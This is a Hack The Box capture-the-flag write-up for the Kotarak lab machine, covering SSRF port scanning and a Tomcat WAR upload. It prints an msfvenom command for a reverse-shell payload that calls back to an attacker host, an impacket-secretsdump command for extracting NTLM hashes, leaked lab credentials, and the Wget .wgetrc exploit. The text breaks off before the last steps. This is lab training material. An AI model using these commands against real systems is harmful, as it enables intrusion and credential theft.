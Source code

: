 ```yaml
---
title: "Hack The Box - Kotarak"
tags: [linux,hard,ssrf,tomcat,ntds.dit,ntlm,secretsdump,wget,cronjob]
categories: HackTheBox-Linux
---
```



![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/title.png)

## *NMAP*
This Machine is the Hard level machine so i will prefer the Full Port Scan :- 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)


## *Enumerating [ SSRF ]*

-> So on port 8080 we have our Tomcat running . On port 60000 we have an webpage that sends an GET request on the url provided :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/Untitled%203.png)

-> If we try to read /etc/passwd the The word **`file`** is filtered which stops us from reading local files. Although we are able to use [localhost](http://localhost) and access this and the tomcat page :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/burp.png)

=> Scanning Ports on [localhost](http://localhost) using wfuzz 

**`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ`**
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/wfuzz.png)

→ [localhost:888](http://localhost:888) has interesting things :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/back.png)

→ Taking a look at **backup** option.

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/se.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/cred.png)

We got credentials for tomcat

```
admin : 3@g01PdhB!
```

⇒ Logged in on tomcat manager page. Uploaded a WAR msfvenom shell and popped a shell :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f war > shell.war
```
![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/tommm.png)

*Starting out netcat 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/image.png)

---

### *Privilege Escalation [ tomcat to atanas ]*

⇒ In /home/tomcat/to_archive/pentest_data  folder we find 2 interesting files which looks like one of them is ntds.dit and the other is system registry file :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/pwd.png)

Lets run [secretsdump.py](http://secretsdump.py) [ a tool from impacket ] to retrieve ntlm hashes

```bash
impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL
```  

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/hash.png)

→ Cracking the NTLM hash

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/crack.png)

→ The credentials work and we are able to switch to user atanas : 

**`atanas : f16tomcat!`**

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/su.png)

### *Privilege Escalation to Root*

⇒ We are able to read and write files in root directory. We find the following :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root1.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root1.png)

→ Looks like there's another docker container  machine on the network with the ip [ 10.0.3.133 ] which is running an wget cron to our http server. We can also see the version of Wget being used  ( Wget/1.16 ). There's an exploit for this version of wget being used

Exploit : [https://www.exploit-db.com/exploits/40064](https://www.exploit-db.com/exploits/40064)

```bash
GNU Wget before 1.18 when supplied with a malicious URL (to a malicious or 
compromised web server) can be tricked into saving an arbitrary remote file 
supplied by an attacker, with arbitrary contents and filename under 
the current directory and possibly other directories by writing to .wgetrc.
Depending on the context in which wget is used, this can lead to remote code 
execution and even root privilege escalation if wget is run via a root cronjob 
as is often the case in many web application deployments.
```

⇒ So in this exploit we will create a 301x redirect , when the user machine  try to access that wget archive  file it will redirected to ftp server and that ftp server will be running  on our own attacker machine and it will serve a malicious file which will give us root access 

→ Creating malicious .wgetrc File on our Own machine  that we will be serving :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root2.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root2.png)


=> Run pythonftp server on attacker machine , our own machine 

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/python.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/python.png)

First we need to Edit our exploit and then transfer it into our victim machine  it on the system Using python http server on attcker  and wget on victim  :

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png)

![https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png](https://raw.githubusercontent.com/unknown00759/unknown00759.github.io/master/img/HTB-KOTARAK/root4.png)








